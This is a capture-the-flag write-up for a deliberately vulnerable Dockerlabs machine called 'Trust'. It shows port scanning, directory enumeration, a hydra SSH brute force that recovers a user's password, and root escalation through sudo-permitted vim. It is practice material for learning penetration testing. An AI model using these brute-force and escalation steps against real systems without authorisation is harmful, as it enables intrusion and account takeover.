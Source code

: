 # Write Up Trust

**Difficulty:** Super easy<br>
**Dockerlabs link:** https://dockerlabs.es/

## Environment setup
First of all, we deploy the machine using the script that comes when downloading it:
```
❯ sudo ./auto_deploy.sh trust.tar
[sudo] contraseña para godack: 

	                   ##        .         
	             ## ## ##       ==         
	          ## ## ## ##      ===         
	      /""""""""""""""""\___/ ===       
	 ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	      \______ o          __/           
	        \    \        __/            
	         \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
				    

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.18.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Once deployed, we create the folder `trust-dockerlabs`, move inside, and use the *mkt* utility, which creates the folders *nmap*, *content*, *exploits* and *scripts*.

```
❯ mkdir trust-dockerlabs
❯ cd trust-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  content
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  exploits
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  nmap
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  scripts
```
## Reconnaissance
Now that we know the IP address, we perform a full scan to find open ports in a stealthy and fast way:
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:46 CEST
Initiating ARP Ping Scan at 10:46
Scanning 172.18.0.2 [1 port]
Completed ARP Ping Scan at 10:46, 0.10s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:46
Scanning 172.18.0.2 [65535 ports]
Discovered open port 80/tcp on 172.18.0.2
Discovered open port 22/tcp on 172.18.0.2
Completed SYN Stealth Scan at 10:46, 2.88s elapsed (65535 total ports)
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.000024s latency).
Scanned at 2025-08-17 10:46:09 CEST for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

So we discover that the open ports are SSH (22) and HTTP (80).  
With the *extractPorts* utility we copy them to the clipboard and then run a more thorough scan to discover the service and version running on those ports.


```
❯ extractPorts allPorts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 172.18.0.2
   5   │     [*] Open ports: 22,80
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nmap -sCV -p22,80 172.18.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:49 CEST
Nmap scan report for 172.18.0.2
Host is up (0.000058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
```

## Exploitation
Since a web service and SSH are running, we first gather information from the webpage before trying SSH. To do this, we add an entry to our local DNS (/etc/hosts) with the machine’s name (`trust`) and its IP.

```
❯ sudo vi /etc/hosts
[sudo] contraseña para godack: 
❯ cat /etc/hosts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 127.0.0.1   localhost
   2   │ 127.0.1.1   kali
   3   │ 
   4   │ 172.18.0.2  trust
   5   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Accessing the website shows the default Apache page with no useful info, so we try to enumerate directories with *gobuster*:

```
❯ gobuster dir -u http://trust/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://trust/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,php.bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 270]
/.html                (Status: 403) [Size: 270]
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.html                (Status: 403) [Size: 270]
/.php                 (Status: 403) [Size: 270]
/server-status        (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.php.bak (Status: 403) [Size: 270]
Progress: 6369160 / 6369165 (100.00%)
===============================================================
Finished
===============================================================
```

We find a hidden page `/secret.php` that says:

```
Hola Mario,

Esta web no se puede hackear.
```
![alt text](../.sources/Trust-secret.png)

So we assume a possible username is **Mario**.  
With no more info, the next step is brute-forcing SSH with *hydra*:

```
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://trust
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-18 20:05:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://trust:22/
[22][ssh] host: trust   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-18 20:05:51
```

And we obtain the password **chocolate**.

## Privilege Escalation
Once inside, we stabilize the shell:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Then we check what we can run with *sudo*:

```
mario@f29b3bbef1a5:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on f29b3bbef1a5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on f29b3bbef1a5:
    (ALL) /usr/bin/vim
```

We abuse this to spawn a root shell:

```
mario@f29b3bbef1a5:~$ sudo vim -c ':!/bin/bash'

root@f29b3bbef1a5:/home/mario# whoami
root
root@f29b3bbef1a5:/home/mario# 
```

Root obtained!
